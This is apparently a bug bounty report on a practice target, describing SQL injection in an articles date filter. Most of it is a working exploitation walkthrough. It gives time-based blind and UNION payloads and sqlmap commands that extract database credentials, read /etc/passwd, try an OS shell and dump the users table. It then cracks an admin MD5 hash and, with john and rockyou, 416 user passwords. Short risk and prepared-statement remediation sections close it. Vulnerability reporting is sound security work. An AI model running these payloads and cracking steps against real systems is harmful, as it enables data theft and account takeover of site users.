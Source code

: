 ## Description

With **Burp Suite software**, I have analyze all exchanges between client to server.
And an exchange caught my attention, when user filter by date articles.
User can use **from** and **to** for filter articles.

Theses parameters are specified in the URL like this :
https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08

Details :

* **2020-09-30** is **from** value,
* **2020-10-08** is **to** value,

---

## Exploitation

### SQLMAP tests
The parameters **from** and **to** are sensibles to **SQL injection**. For determine this, I use **sqlmap**.
The attacker does **not need to be authenticated** to exploit this vulnerability.

For specify User-Agent value in sqlmap, I use **--header** option for example :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp"
````

Sqlmap detect two SQL payload :

 * First **time-based blind** : https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com:443/articles/index/2020-09-30/2020-10-08' AND (SELECT 4450 FROM (SELECT(SLEEP(5)))xryI) AND 'ghwC'='ghwC

 * Second **UNION query** : https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com:443/articles/index/2020-09-30/2020-10-08' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162626271,0x756d4557664947516d6e516350537243617249584f574d6741657278707753707a625845584a7172,0x716b766a71),NULL,NULL,NULL,NULL-- -

### Get general informations 

First I want to know user of database :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" --current-user
````

Return :
````text
neocorp@localhost
````

Second I want to know current database :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" --current-db
````

Return :
````text
neocorp_0_1
````

Third, I want to know password of **neocorp@localhost** user :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" --passwords
````

With sqlmap, its possible to directly try to crack hash and sqlmap dcrack password for :
````text
neocorp@localhost	neocorp
root@localhost		NULL
````

In sql, it's possible to get content of remote file with **LOAD_FILE()** function, in sqlmap this function is represented with **--file-read** option.

So I will try to get **/etc/passwd** file from server :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" --file-read "/etc/passwd"
````

Return :
````text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:1000:1000:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
````

Next I will try to get **/etc/shadow** file from server :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" --file-read "/etc/shadow"
````

Return :
````text
[ERROR] no data retrieved
````

I suppose i don't have necessary rights for read this file...

Next, I will try to upload reverse shell by sql injection and **INTO OUTFILE** SQL function, in sqlmap this feature is realize by **--os-shell** option.
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" --os-shell
````

And I use **PHP** backdoor in **common location**
But this attack does not work maybe this feature is **disabled**...

---

## PoC
In this PoC I will try to get username and hashes of user and try to reverse it.

First I need to know db :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" --dbs
````

Return :
````text
[*] information_schema
[*] mysql
[*] neocorp_0_1
[*] performance_schema
````

Next, I will use neocorp_0_1 :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" -D neocorp_0_1 --tables
````

Return :
````
+---------------+
| articles      |
| articles_tags |
| comments      |
| tags          |
| users         |
+---------------+
````

Next, i will try to get name of columns of users table :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" -D neocorp_0_1 -T users --column
````

Return :
````text
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| address      | varchar(255) |
| agent_number | varchar(5)   |
| avatar       | longtext     |
| city         | varchar(50)  |
| created      | datetime     |
| email        | varchar(255) |
| id           | int(11)      |
| locked       | tinyint(1)   |
| modified     | datetime     |
| password     | varchar(255) |
| phone        | varchar(12)  |
| role         | varchar(5)   |
| zipcode      | varchar(8)   |
+--------------+--------------+
````

Ok, next I will try to get value in table :
````bash
sqlmap -u https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/index/2020-09-30/2020-10-08 --headers="User-Agent:-BB-NeoDemoCorp" -D neocorp_0_1 -T users -C email,password,role --dump
````

Ok great I have dump data, all of data are in **dump.txt** file, in this file I have identified 1 user who have **admin role**.
This user is **joe@neodemo.corp**, and him hashes is :
````text
joe@neodemo.corp,fba1d537718db7a8d8357a661e425899,admin
````

So I need to know which is algorithm who have produce this hash :
````bash
hash-identifier fba1d537718db7a8d8357a661e425899
````

Return :
````text
MD5
````

Ok MD5 not salted, it's bad, very very bad :D !

I have found him password with https://md5decrypt.net/ website :
````text
fba1d537718db7a8d8357a661e425899 -> Fiat Punto
````

I try to connect with this credentials and greeeat it's work :
![img](./admin.png)

After I try to crack all hashes with **john** and **rockyou** wordlist :
````bash
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.text 						# 71 password  cracked
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --rules=Single			# 281 password cracked
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --rules=Wordlists		# 281 password cracked
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --rules=Extra			# 416 password cracked
````

Nice I have crack 416 password of user...
All password is store in **crack.txt** file.

Conclude :

 * I have found admin password and now I have admin privilege in application,
 * I have crack 416 password of users

---

## Risk
A people can inject SQL code and read data in database, and we see with different functions we can :

 * Obtain user and password of database,
 * Read file in server (/etc/passwd), 

---

## Remediation
All input must be serialized, for example with sql query prepare, this method esacape all SQL sequence in user input.
So the **from** and **to** parameter and all parameter must be use **prepare sql** statement in application.